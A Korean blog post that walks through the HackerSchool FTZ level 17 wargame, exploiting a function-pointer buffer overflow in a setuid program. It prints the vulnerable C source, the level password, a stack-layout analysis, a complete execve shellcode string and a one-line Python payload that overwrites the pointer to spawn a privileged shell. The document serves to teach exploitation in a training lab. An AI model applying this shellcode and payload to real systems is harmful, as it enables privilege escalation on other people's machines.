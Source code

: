 ```yaml
---
title: BOF/ ftz-level17
tags: ftz
---
```


17번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 17
**ID : level17**  
**PASSWD : king poetic**         

<br />
{% highlight C linenos %}  
#include <stdio.h>

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  setreuid(3098,3098);
  call();
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
15번과 비슷하지만 shell을 실행시켜주는 함수가 없다.  
따라서 void포인터 call에 쉘코드가 저장된 환경변수의 주소를 변조하도록 공격한다.  

<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level17에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level17/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 esp에 56Byte의 공간을 할당하는것을 알 수 있다.  
main+24,27 line을 보면 fgets함수에 buf를 인자로 전달하기 위한 연산을 수행하고 있음을 알 수 있다.  
따라서 buf의 주소는 ebp-56.  
main+57 line을 보면 eax를 call하기 위해 ebp-16을 eax에 대입하고 있다.  
소스를 보면 eax는 void포인터 call임을 알 수 있다. 따라서 ebp-16은 void포인터 call.  
buf와 call사이의 거리는 56-16 = 40Byte buf의 크기가 20Byte이므로 dummy값이 20Byte가 있다.   
<br />

**참고**  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.  


메모리구조|
---|
buffer(20Byte)|
dummy(20Byte)|
call(4Byte)|
crap(4Byte)|
dummy(8Byte)|
sfp(4Byte)|
ret(4Byte)| 

<br />
![그림2](/assets/ftz/level17/2.PNG)  
쉘코드를 담은 환경변수를 만들어준다.  

<br />
![그림3](/assets/ftz/level17/3.PNG)  
기존의 환경변수 주소 얻는 코드이다.  하지만 이 소스는 정확한 주소를 얻을 수 없는 경우가 있는데 아래 그림을 보자.  

<br />
![그림4](/assets/ftz/level17/4.PNG)  
위와 같이 환경변수 주소를 얻는 소스를 실행시켜보지만 소스를 실행시키는 위치에 따라 다른 주소가 출력되는것을 볼 수 있다.  

**환경변수의 주소는 bf로 시작한다. 즉, 프로그램이 실행되면 환경변수의 데이터들이 스택 어딘가에 들어간다.**  
**따라서 프로그램 이름의 길이나 명령어의 길이등에 따라 환경변수의 주소가 바뀐다.**  

<br />
![그림5](/assets/ftz/level17/5.PNG)  
위의 소스는 프로그램명과 타깃 바이너리의 절대경로 등을 계산하여 정확한 주소값을 출력하는 소스이다.  

<br />
![그림6](/assets/ftz/level15/6.PNG)  
전에 사용하던 소스와 달리 프로그램을 실행하는 경로에 따라 출력되는 주소가 다른 경우는 발생하지 않는다.  
첫 번째 인자로는 환경변수의 이름, 두 번째 인자로는 타겟 바이너리 파일의 절대경로를 전달한다.  

<br />
![그림7](/assets/ftz/level17/7.PNG)  
위에서 얻은 환경변수의 정확한 주소로 페이로드를 작성하여 공격한다.  
void포인터 call이 포인팅하는 주소를 쉘코드가 담긴 환경변수의 주소를 포인팅하도록 한다.  

<br />

#### 페이로드
(python -c "print 'A'*40 + '\xfd\xfb\xff\xbf'";cat) | /home/level17/attackme
